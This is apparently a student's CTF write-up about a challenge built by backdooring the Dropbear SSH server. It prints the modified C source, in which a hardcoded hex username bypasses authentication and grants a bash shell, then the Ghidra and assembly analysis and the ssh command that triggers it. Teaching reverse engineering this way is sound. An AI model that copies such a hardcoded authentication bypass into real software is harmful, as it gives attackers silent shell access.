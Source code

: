```yaml
---
title: "Realistic Backdoor CTF Challenge"
date: "2025-04-6"
tags: ["reverse engineering", "malware", "backdoor"]
description: "My writeup on my self made CTF challenge"
---
```


# Inspiration for the challenge

I was tasked to create an original Capture The Flag challenge for the class, COMP:6970 CTF Practicum. Originally, I wanted to explore ideas in obfuscation and control flow manipulations to create a complex and difficult challenge. Eventually, I scrapped that idea and explored the idea of backdooring real software and asking users to find the backdoor to solve the CTF.

> **Try it yourself:** If you would like to try the challenge check out [this repository](#).
> 
> **Source code:** If you just want to see the source and everything that went into it, visit the [source repository](#).

---

# Actually building it

I immediately decided to host the CTF inside of a [**Docker image**](https://www.docker.com/) for ease of use. I originally planned to implement the backdoor into [openSSH](https://www.openssh.com/), but I settled on [**Dropbear**](https://matt.ucc.asn.au/dropbear/dropbear.html). Here is the backdoored code:

```c
static int checkusername(const char *username, unsigned int userlen) {

	char* listshell = NULL;
	char* usershell = NULL;
	uid_t uid;

	if (strcmp(username, "64796C616E") == 0)
	{
		dropbear_log(LOG_NOTICE, "Backdoor triggered");
		ses.authstate.pw_name = m_strdup("ctf");
		ses.authstate.pw_dir = m_strdup("/home/ctf");
		ses.authstate.pw_shell = m_strdup("/bin/bash");
		ses.authstate.pw_uid = 1001;
		ses.authstate.pw_gid = 1001;

		send_msg_userauth_success();
		ses.authstate.authdone = 1;
		return DROPBEAR_SUCCESS;
	}
```

Let's examine the backdoor in [Ghidra](https://ghidra-sre.org/) and see what the decomp might look like.

Heavily edited to show the important parts:

```c 
void recv_msg_userauth_request(void)
  iVar3 = strcmp(__s1,"64796C616E");
  if (iVar3 != 0) {
	normal logic...
  }

  dropbear_log(5,"Backdoor triggered");
  DAT_00146948 = (char *)m_strdup(&DAT_001355fb);
  DAT_00146938 = m_strdup(&DAT_001355f5);
  DAT_00146940 = (char *)m_strdup("/bin/bash");
  _DAT_00146930 = 0x3e9000003e9;
  send_msg_userauth_success();
  DAT_00146910 = 1;
```

Alright! That looks fairly straightforward. I wasn't looking to make this super challenging - with a simple string search or diffing, this section is easily spottable.

Now that the challenge binary is set up, I moved it to run on a [Digital Ocean](https://www.digitalocean.com/) droplet so that people can access it, but not have the ability to cheat by looking in the Docker image.

The actual solution looks like this:

```bash
ssh -p 2222 64796C616E@165.227.115.29
dispatch_protocol_error: type 51 seq 3
ctf@7da3577ac2bb:~$ cat flag.txt
flag{b4ckd00r3d_s3rv3r_w4s_c0mpr0m1s3d}
```

Nice and simple. Since I did not want to host all of the infrastructure, I created a small binary to handle flag checking, instructions, and hints.

![CTF Runner Binary](/writeups/custom/ctf_runner.png)

<p align="center"><em>The CTF runner binary provides instructions, flag checking, and hints.</em></p>



---

# Intended Solution - Mock Writeup

## Summarized Solution
1. Investigate [strings](https://linux.die.net/man/1/strings) and find the backdoor string
2. Analyze the binary using [Ghidra](https://ghidra-sre.org/) to locate the backdoor string
3. Identify the function `recv_msg_userauth_request` where the string is used
4. Trace the [disassembly](https://en.wikipedia.org/wiki/Disassembler) to understand the backdoor logic
5. Use the hexadecimal string `"64796C616E"` as the username to trigger the backdoor

## Full Walkthrough

Upon downloading or pulling the CTF challenge, I was presented with two binaries and a readme.
	
![Directory Listing](/writeups/custom/ls_directory.png)

<p align="center"><em>The directory listing shows the binaries and the readme file.</em></p>



The readme contains the instructions to get started:

```bash
All of the instructions are in the ctf_runner binary. It has the description, 
instructions, flag checker, and hints. Just run it to get started!

If you are running on mac just run the following command to get started:
cd ctf_runner_src
go build .
./ctf_runner
```

### Understanding the Challenge

Run the ctf_runner binary as instructed - The description has important information such as the flag format, it is a reverse engineering challenge, and that there is a backdoor. 

![Challenge Description](/writeups/custom/slide1.png)

<p align="center"><em>The challenge description provides key details about what to look for.</em></p>



Clicking on the instructions yields:

![Challenge Instructions](/writeups/custom/instructions.png)

<p align="center"><em>Instructions for connecting to the challenge server.</em></p>



Looks like there is a server to connect to, let's try it.

![SSH Connection Attempt](/writeups/custom/ssh_connect.png)

<p align="center"><em>Initial connection attempt fails, as expected.</em></p>



### Reverse Engineering the Binary

Connection failed. It is now time to take a look at the binary that contains the backdoor. It is named [Dropbear](https://matt.ucc.asn.au/dropbear/dropbear.html) and for those that are unfamiliar, it is an SSH service similar to [OpenSSH](https://www.openssh.com/).

The first thing I always check when looking at a binary is the [**strings**](https://linux.die.net/man/1/strings) command. In this case, Dropbear is a fairly large project resulting in a lot of strings that are irrelevant. [Grepping](https://linux.die.net/man/1/grep) for "backdoor" results in the string "Backdoor triggered". At this point there are multiple paths you could go down: [diffing](https://en.wikipedia.org/wiki/Diff), [dynamic analysis](https://en.wikipedia.org/wiki/Dynamic_program_analysis), but the easiest in this instance is just to do [static analysis](https://en.wikipedia.org/wiki/Static_program_analysis). Since Dropbear is a big enough program, I am going to look for where that string is used.

![String Search Result](/writeups/custom/string_backdoor.png)

<p align="center"><em>Finding the "Backdoor triggered" string in the binary.</em></p>



After searching using Ghidra's string finder, we can find the location of the string within the binary. Since this binary is not stripped, we can see that the string is used in the function `recv_msg_userauth_request`. With this, we can go find where this string is being used in the disassembly.

![Disassembly View](disassembly.png)

<p align="center"><em>Disassembly showing the backdoor comparison logic.</em></p>



From the above image, we can see that it does some type of string comparison with `"64796C616E"`. We can make an educated guess that the string has something to do with triggering the backdoor, but let's step back for a moment. The function that houses the backdoor may give us some context clues on what the string could be used for.

I went and found the original source code on Github and tried to see what this could be:
https://github.com/mkj/dropbear/blob/bd12a8611b3c838f1ed1d1c2cbaff2da1072a315/src/svr-auth.c#L73

If you look at the disassembly right above the hexadecimal comparison, you see three calls to `buffer_getstring()` which can also be seen in the source code.

Here is the disassembly:

![Buffer Getstring Calls](buf_getstring.png)

<p align="center"><em>Disassembly showing the buffer_getstring() calls.</em></p>



And here is the source:

```c
username = buf_getstring(ses.payload, &userlen);
servicename = buf_getstring(ses.payload, &servicelen);
methodname = buf_getstring(ses.payload, &methodlen);
```

### Finding the Backdoor Trigger

With this, we can trace the disassembly to figure out what is being compared.

First, it stores the username in RAX:

```asm
0011ab59  MOV RDI,[DAT_001467f8]             ; ses.payload
0011ab60  LEA RSI,[RSP + 0x18]               ; &userlen (local_50)
0011ab65  CALL buf_getstring                 ; returns pointer in RAX
```

It then stores it on the stack:

```asm
0011ab76  MOV [RSP], RAX                     ; local_68 = username
```

Eventually we hit the comparison triggering the backdoor:

```asm
LAB_0011abde:
0011abde  MOV RDI, [RSP]                     ; RDI = username
0011abe2  LEA RSI, [s_64796C616E_001355d7]   ; RSI = "64796C616E"
0011abe9  CALL strcmp                        ; strcmp(username, "64796C616E")
```

### Solving the Challenge

Let's now try the hexadecimal string as the username when connecting to the server mentioned in the instructions. Success!

![Challenge Solved](solved.png)

<p align="center"><em>Successfully triggering the backdoor and finding the flag.</em></p>